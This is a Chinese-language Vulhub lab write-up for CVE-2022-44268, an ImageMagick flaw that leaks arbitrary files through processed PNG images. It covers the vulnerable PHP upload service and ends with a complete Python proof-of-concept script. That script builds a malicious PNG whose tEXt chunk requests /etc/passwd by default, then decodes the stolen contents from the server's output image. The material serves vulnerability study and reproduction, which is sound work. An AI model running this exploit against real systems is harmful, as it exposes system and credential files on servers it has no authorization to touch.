




ImageMagick任意文件读取漏洞 CVE-2022-44268¶
漏洞描述¶
ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。
在ImageMagick 7.1.0-51版本及以前，其处理PNG文件的代码中存在一处功能，会导致转换图片时读取到当前操作系统上的任意文件，并将文件内容输出在图片内容中。
参考链接：
- https://www.metabaseq.com/imagemagick-zero-days/
- https://github.com/ImageMagick/Website/blob/main/ChangeLog.md#710-52---2022-11-06
环境搭建¶
Vulhub执行如下命令启动一个Web服务器，这个服务器的功能是将用户上传的任意图片缩小成50x50的PNG图片。
docker-compose up -d
服务启动后，访问http://your-ip:8080可以看到图片上传框：

后端服务的代码十分简单：
$newname = uniqid() . '.png';
shell_exec("convert -resize 50x50 {$_FILES['file_upload']['tmp_name']} ./{$newname}");
漏洞复现¶
利用这个漏洞，需要先准备一个恶意PNG文件，文件内容中包含我们准备读取的文件路径：
可以使用poc.py来生成这个图片：
python poc.py generate -i input.png -o poc.png -r /etc/passwd
执行poc.py前请安装PyPNG：
pip install pypng
如果你使用010editor查看这个图片，可以看到其中包含一个类型是tEXt的chunk，其中包含我们的Payload profile=/etc/passwd：

接着，我们将这个图片上传到目标服务中：

下载服务处理后生成的图片，使用poc.py提取出其中所有内容：
python poc.py parse -i output.png

可以看到，已经提取出/etc/passwd文件的内容，这部分内容是由ImageMagick在处理旧图片时读取并写入到新图片中。
附录¶
后端服务代码¶
<?php
$newname = '';
if (!empty($_FILES)) {
$ext = pathinfo($_FILES['file_upload']['name'], PATHINFO_EXTENSION);
if (!in_array($ext, ['gif', 'png', 'jpg', 'jpeg'])) {
die('Unsupported filetype uploaded.');
}
$newname = uniqid() . '.png';
shell_exec("convert -resize 50x50 {$_FILES['file_upload']['tmp_name']} ./{$newname}");
}
?>
<form method="post" enctype="multipart/form-data">
File: <input type="file" name="file_upload">
<input type="submit">
</form>
<br>
<?php
if ($newname):
?>
<h1>Your image:</h1>
<p>
<a href="./<?=$newname?>" target="_blank">
<img src="./<?=$newname?>" width="50" height="50">
</a>
</p>
<?php
endif;
poc.py¶
#!/usr/bin/env python3
import sys
import png
import zlib
import argparse
import binascii
import logging
logging.basicConfig(stream=sys.stderr, level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')
d = zlib.decompressobj()
e = zlib.compressobj()
IHDR = b'\x00\x00\x00\n\x00\x00\x00\n\x08\x02\x00\x00\x00'
IDAT = b'x\x9c\xbd\xcc\xa1\x11\xc0 \x0cF\xe1\xb4\x03D\x91\x8b`\xffm\x98\x010\x89\x01\xc5\x00\xfc\xb8\n\x8eV\xf6\xd9' \
b'\xef\xee])%z\xef\xfe\xb0\x9f\xb8\xf7^J!\xa2Zkkm\xe7\x10\x02\x80\x9c\xf3\x9cSD\x0esU\x1dc\xa8\xeaa\x0e\xc0' \
b'\xccb\x8cf\x06`gwgf\x11afw\x7fx\x01^K+F'
def parse_data(data: bytes) -> str:
_, data = data.strip().split(b'\n', 1)
return binascii.unhexlify(data.replace(b'\n', b'')).decode()
def read(filename: str):
if not filename:
logging.error('you must specify a input filename')
return
res = ''
p = png.Reader(filename=filename)
for k, v in p.chunks():
logging.info("chunk %s found, value = %r", k.decode(), v)
if k == b'zTXt':
name, data = v.split(b'\x00', 1)
res = parse_data(d.decompress(data[1:]))
if res:
sys.stdout.write(res)
sys.stdout.flush()
def write(from_filename, to_filename, read_filename):
if not to_filename:
logging.error('you must specify a output filename')
return
with open(to_filename, 'wb') as f:
f.write(png.signature)
if from_filename:
p = png.Reader(filename=from_filename)
for k, v in p.chunks():
if k != b'IEND':
png.write_chunk(f, k, v)
else:
png.write_chunk(f, b'IHDR', IHDR)
png.write_chunk(f, b'IDAT', IDAT)
png.write_chunk(f, b"tEXt", b"profile\x00" + read_filename.encode())
png.write_chunk(f, b'IEND', b'')
def main():
parser = argparse.ArgumentParser(description='POC for CVE-2022-44268')
parser.add_argument('action', type=str, choices=('generate', 'parse'))
parser.add_argument('-i', '--input', type=str, help='input filename')
parser.add_argument('-o', '--output', type=str, help='output filename')
parser.add_argument('-r', '--read', type=str, help='target file to read', default='/etc/passwd')
args = parser.parse_args()
if args.action == 'generate':
write(args.input, args.output, args.read)
elif args.action == 'parse':
read(args.input)
else:
logging.error("bad action")
if __name__ == '__main__':
main()